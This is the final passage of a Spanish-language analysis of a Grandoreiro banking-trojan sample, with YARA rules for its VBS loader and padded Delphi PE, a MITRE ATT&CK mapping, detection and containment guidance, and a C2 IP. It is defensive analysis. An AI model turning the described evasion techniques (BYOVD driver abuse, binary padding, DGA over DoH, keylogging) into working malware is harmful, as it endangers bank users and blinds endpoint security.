        author      = "dust"
        description = "Loader VBS del kit de entrega LATAM (Grandoreiro/Valyria): deobfuscador por Replace de cadena basura + decode base64 vía ADODB.Stream, renombrado .cwl"
        date        = "2026-06-29"
        tlp         = "CLEAR"
        reference   = "fennek.org/posts/grandoreiro-byovd"
    strings:
        $junk    = "?~/_*|>.#-"           // delimitador basura insertado entre caracteres
        $replace = "Replace("  nocase
        $cwl     = ".cwl"                  // extensión señuelo del PE embebido
        $shell   = "ShellExecute" nocase
    condition:
        filesize > 1MB and filesize < 25MB
        and #junk > 100
        and $replace and ($cwl or $shell)
}

import "pe"
rule Bloated_Delphi_PE_AntiSandbox
{
    meta:
        author      = "dust"
        description = "PE Delphi inflado anti-sandbox (Grandoreiro 'SwollenFile'): SizeOfImage enorme con .rsrc desproporcionada de relleno"
        date        = "2026-06-29"
    strings:
        $delphi = "Software\\Embarcadero\\Locales"   // huella del runtime Delphi
    condition:
        pe.is_pe
        and pe.size_of_image > 100000000             // > ~100 MB virtuales
        and for any s in pe.sections : (
              s.name == ".rsrc" and s.raw_data_size > 50000000   // .rsrc > ~50 MB
        )
        and $delphi
}
```

**Por qué cada condición.** En la primera, `$junk` con `#junk > 100` es el indicador fuerte (ningún VBS legítimo repite esa cadena cientos de veces); el rango de `filesize` descarta scripts normales y blobs sueltos. En la segunda, el par `.rsrc` desproporcionada + `SizeOfImage` enorme caza la **técnica** de inflado, y la clave de registro de Embarcadero ancla el **runtime Delphi**.

> Puedes reproducir el triage PE y probar YARA contra muestras en el navegador con [**APT115**](/apt115/) (libyara compilada a WASM, parser PE y extractor de IOCs, todo offline).

---

## 11. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID | Evidencia |
|---|---|---|---|
| Initial Access | Phishing: Attachment | T1566.001 | VBS dentro de ISO por portal de tickets |
| Execution | User Execution: Malicious File | T1204.002 | Doble clic en la ISO + VBS |
| Execution | Visual Basic / PowerShell / Cmd | T1059.005/.001/.003 | Loader VBS; persistencia por PS/cmd |
| Defense Evasion | Deobfuscate/Decode | T1140 | `Replace` de basura; base64 → ADODB.Stream; 4-5 capas de cifrado |
| Defense Evasion | Binary Padding | T1027.001 | PE inflado a 116/284 MB (`.rsrc` BMP) |
| Defense Evasion | Masquerading | T1036.005 | `.cwl`→`.exe`, DLLs como `.XML`, "IGCCStartupAgent" |
| Defense Evasion | Process Injection: EWM | T1055.011 | `SetWindowLongW`+`FindWindowExW` |
| Privilege Escalation | Exploitation (BYOVD) | T1068 / T1211 | 15 drivers; `DellInstrumentation.sys` (CVE-2021-21551 class) |
| Persistence | Registry Run Keys | T1547.001 | `IGCCStartupAgent…` en HKLM+HKCU |
| Credential Access | Input Capture: Keylogging | T1056.001 | hook + polling de teclado |
| Collection | Screen Capture | T1113 | `PrintWindow`/`BitBlt` en sesión bancaria |
| Collection | Clipboard Data | T1115 | `GetClipboardData` |
| Discovery | Security Software Discovery | T1518.001 | WMI: AV/AntiSpyware/Firewall |
| Discovery | System / Network Discovery | T1082 / T1046 | serial, locale, `NetWkstaGetInfo`, port-scan |
| C2 | Application Layer Protocol: DNS (DoH) | T1071.004 | DGA resuelto por DNS-over-HTTPS |
| C2 | Dynamic Resolution: DGA | T1568.002 | 14 semillas, apex diario |
| C2 | Non-Standard Port | T1571 | 157/5832/30449/49741+ |

---

## 12. Detección y mitigación (blue-team)

**Fase de montaje.** Sysmon **EID 12/14** sobre montaje de imágenes (`\Device\CdRom`), o creación de `wscript.exe`/`cscript.exe` con **padre `explorer.exe`** y argumento en una unidad montada (*Suspicious Disk Image Mount*). Raíz: **ASR** "Block executable content from email client and webmail" + no auto-montar ISO descargadas.

**Fase de payload.** Llaves `Run` creadas por `cmd.exe`/`powershell.exe` apuntando a `C:\ProgramData\<carpeta-rara>\` o a `%LOCALAPPDATA%` con extensiones inusuales (`.cwl`) — Sysmon **EID 13**. Procesos no firmados ejecutándose desde `C:\ProgramData\`.

**Fase BYOVD (prioritaria).** Windows **EID 7045** (driver/servicio instalado) o Sysmon **EID 6** (*Driver Loaded*) para drivers en rutas no estándar; cruzar el **hash del `.sys`** contra **loldrivers.io**; aplicar la **Microsoft Vulnerable Driver Blocklist** (HVCI/WDAC) y reglas Sigma de LOLDrivers.

**Fase C2.** **DoH saliente** desde procesos no firmados (consulta a `dns.google`/Cloudflare sin pasar por el resolver corporativo) es alta señal; conexiones a puertos altos no estándar; el patrón de **muchos puertos a una sola IP**.

**Contención (lo que hizo el SOC, correcto):** aislar endpoint, deshabilitar la cuenta en AD, eliminar las dos llaves `Run`, borrar `C:\ProgramData\WareGridiwlgyUpgradeZone\`, y —clave aquí— **validar que ningún driver de esa carpeta haya quedado cargado en kernel** antes de confiar en un scan limpio, dado el BYOVD. Revisar si otros hosts contactaron `32.192.217.212` o resolvieron los dominios del DGA.

---

## 13. Conclusión

La muestra es **Grandoreiro** —banker LATAM en Delphi, MaaS desde 2016, con capacidad de atacar 1.700+ bancos y 276 billeteras crypto en 45 países—, en una variante que añade un **módulo BYOVD** para cegar al EDR antes de robar. La campaña (`3F8EDB04FNTNMA`) apuntaba a contribuyentes LATAM con señuelos fiscales.

Tres lecciones:

1. **La etiqueta de un sandbox es una hipótesis, no un veredicto.** "RatonRAT" salió de una asociación por IP benigna y de un sandbox que el malware logró evadir. La atribución real se sostuvo en evidencia convergente: multi-AV, runtime Delphi, el algoritmo de strings de X-Force, el DGA y los módulos de banca.
2. **El envoltorio no atribuye familia, pero el payload sí.** La cadena ISO/VBS/PE-inflado es un kit compartido del crimeware LATAM; lo que cierra la atribución es revertir el payload y reconocer las TTPs y algoritmos de la familia.
3. **BYOVD reescribe la confianza en el endpoint.** Un *full disk scan* limpio no significa nada si el agente fue cegado a nivel kernel. Ante drivers en `ProgramData`, la pregunta no es "¿el scan encontró algo?" sino "¿el scan todavía podía ver?".

Tenía razón en el llamado (Grandoreiro), pero la certeza no vino de la corazonada inicial: vino de juntar cinco evidencias independientes hasta que dejaron de poder ser otra cosa. Eso —y no acertar el nombre rápido— es el método.

---

*Análisis estático reproducido localmente sobre las muestras; comportamiento dinámico vía Joe Sandbox; atribución corroborada con VirusTotal multi-AV y el [informe de Grandoreiro de IBM X-Force](https://www.ibm.com/think/x-force/grandoreiro-banking-trojan-unleashed). Datos de cliente anonimizados. Las herramientas de [APT115](/apt115/) (triage PE/ELF, YARA, disasm, IOCs) corren offline en el navegador si quieres repetir el triage.*
